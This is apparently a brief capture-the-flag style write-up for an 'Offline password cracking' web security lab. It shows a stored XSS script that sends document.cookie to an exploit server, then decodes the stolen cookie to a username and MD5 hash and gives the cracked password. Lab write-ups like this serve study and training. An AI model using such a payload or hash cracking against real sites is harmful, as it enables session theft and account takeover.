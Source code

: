 # Offline password cracking

**<script>document.location='https://exploit-0a65001e048e11c1c00c3f5601990080.exploit-server.net/'+document.cookie</script>**

![screenshot](./images/xss_store_eg.png)

![screenshot](./images/exploit.png)

Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
after decode base64

carlos:26323c16d5f4dabff3bb136f2460a943

_26323c16d5f4dabff3bb136f2460a943_ is hash _onceuponatime_
